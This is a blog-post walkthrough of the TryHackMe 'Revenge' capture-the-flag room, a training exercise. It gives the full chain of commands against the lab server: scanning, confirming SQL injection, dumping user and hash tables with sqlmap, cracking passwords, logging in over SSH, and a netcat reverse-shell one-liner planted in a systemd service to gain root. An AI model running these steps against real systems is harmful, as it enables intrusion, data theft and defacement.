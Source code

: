 ```yaml
---
title: TryHackMe - Revenge
layout: post
categories:
- TryHackMe
tag: security,sqlmap, real-world, enumeration
image: "/assets/img/revenge.png"
image_alt: revenge
---
```


You've been hired by Billy Joel to get revenge on Ducky Inc...the company that fired him. Can you break into the server and complete your mission?

Created by [Nameless0ne](https://tryhackme.com/p/Nameless0ne) 

<br>

![duck](/assets/img/tryhackme/revenge/duck.jpg)

This is revenge! You've been hired by Billy Joel to break into and deface the Rubber Ducky Inc. webpage. He was fired for probably good reasons but who cares, you're just here for the money. Can you fulfill your end of the bargain?

There is a sister room to this one. If you have not completed [Blog](https://tryhackme.com/room/blog) yet, I recommend you do so. It's not required but may enhance the story for you.

All images on the webapp, including the navbar brand logo, 404 and 500 pages, and product images goes to [Varg](https://tryhackme.com/p/Varg). Thanks for helping me out with this one, bud.

Please hack responsibly. Do not attack a website or domain that you do not own the rights to. TryHackMe does not condone illegal hacking. This room is just for fun and to tell a story.

<br>

###  Flag 1

`Billy` sends us a note. Let's look at what says to us.

![billy](/assets/img/tryhackme/revenge/billy.png)

He gives us a `mission`. We must `penetrate a server` and `change the front page`. 

Let's `begin`.

First, let's do a `Nmap` scan to gather information about the target.

```
$ nmap -sSCV 10.10.202.34
```

![nmap](/assets/img/tryhackme/revenge/nmap.png)

As you can see `22/tcp and 80/tcp` ports are open.

Let's explore the website.

Here is a `homepage`. 

![home](/assets/img/tryhackme/revenge/home.png)

Let's do a `gobuster` scan. 

```
$ gobuster dir -u http://10.10.202.34/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html,txt
```

![gobuster](/assets/img/tryhackme/revenge/gobuster.png)

We found a lot of pages. Let's explore all of them.

__`/contact:`__ Upon examining the page, we don't find anything particularly interesting.

![contact](/assets/img/tryhackme/revenge/contact.png)


__`/product:`__ It looks like there are `four products`. 

![products](/assets/img/tryhackme/revenge/products.png)

Let's examine these products.

![product-1](/assets/img/tryhackme/revenge/product-1.png)

We discover an `endpoint (/product/1)` that could be vulnerable to `SQL injection`.

To confirm this, we modify the endpoint to `/product/2-1` and check if we are `still on the /product/1 page`.

![detect](/assets/img/tryhackme/revenge/detect.png)

Indeed, the page is vulnerable to SQL injection.

Let's do a `sqlmap` scan.

```
$ sqlmap -u http:/10.10.202.34/product/1 --dbs
```

![dbs](/assets/img/tryhackme/revenge/dbs.png)

We found the `duckyinc database`. Let's examine this database.

```
$ sqlmap -u http:/10.10.202.34/product/1 -D duckyinc --tables
```

![tables](/assets/img/tryhackme/revenge/tables.png)

Let's dump `system_user`.

```
$ sqlmap -u http:/10.10.202.34/product/1 -D duckyinc -T system_user --dump
```

![system](/assets/img/tryhackme/revenge/system.png)

We find `three users` and their corresponding `hashes`. 

Let's dump the `user table`.

```
$ sqlmap -u http:/10.10.202.34/product/1 -D duckyinc -T user --dump
```

![user](/assets/img/tryhackme/revenge/user.png)

`Well done!` We find the `first flag` which happens to be `Mandrews' credit card number`.


__`/login:`__

![login](/assets/img/tryhackme/revenge/login.png)

__`/admin:`__

![admin](/assets/img/tryhackme/revenge/admin.png)

<br>

### Flag 2

Now, let's `crack the all hashes`.

![all](/assets/img/tryhackme/revenge/all.png)

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt allhash.hash
```

![john](/assets/img/tryhackme/revenge/john.png)

We find `two passwords`. One for the `server-admin` and another for the `dgorman`.

![result](/assets/img/tryhackme/revenge/result.png)

We try to use these passwords on the `login and admin pages`, but they `don't work`. 

Let's try these on `ssh`.

```
$ ssh server-admin@10.10.202.34
```

![ssh](/assets/img/tryhackme/revenge/ssh.png)

Yes, it is work. We are in the server now.

Let's get the `flag 2`.

![flag-2](/assets/img/tryhackme/revenge/flag-2.png)

<br>

### Flag 3

__`Hint: Mission objectives`__

Now, we need to `escalate our privileges`. We start by running the __`sudo -l`__ command.

![sudo-l](/assets/img/tryhackme/revenge/sudo-l.png)

Which shows that we can `execute duckyinc.service` with root privileges. We examine the contents of this file.

```
$ sudoedit /etc/systemd/system/duckyinc.service
```

![service](/assets/img/tryhackme/revenge/service.png)

We need to change this file.

First, let's create a `shell.sh` and write in this code. (Making Sure to `Change the IP and Port` as Necessary)

```
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.86.168 4444 >/tmp/f
```

![shell](/assets/img/tryhackme/revenge/shell.png)

Let's `change the content of the duckyinc.servise` file.

```
User=root
Group=root
ExecStart=/bin/bash /home/server-admin/shell.sh
```

![service-2](/assets/img/tryhackme/revenge/service-2.png)

Now we need it set up a `netcat listener`. Then we can `run` the duckyinc.service.

![get-root](/assets/img/tryhackme/revenge/get-root.png)

Success! We now have `root access`. 

![root](/assets/img/tryhackme/revenge/root.png)

`Remember` the mission. We must `change the front page` for the root flag.

I changed the `index.html` location on the server.

```
$ mv /var/www/duckyinc/templates/index.html
```

Now, we can get the `root flag`.

![root-flag](/assets/img/tryhackme/revenge/root-flag.png)


<br>

`Congratulations!` We have successfully completed the steps to find all the flags. It was nice CTF. I hope you learned something and had fun. But that’s it for now till next time take care :wave:

<br>
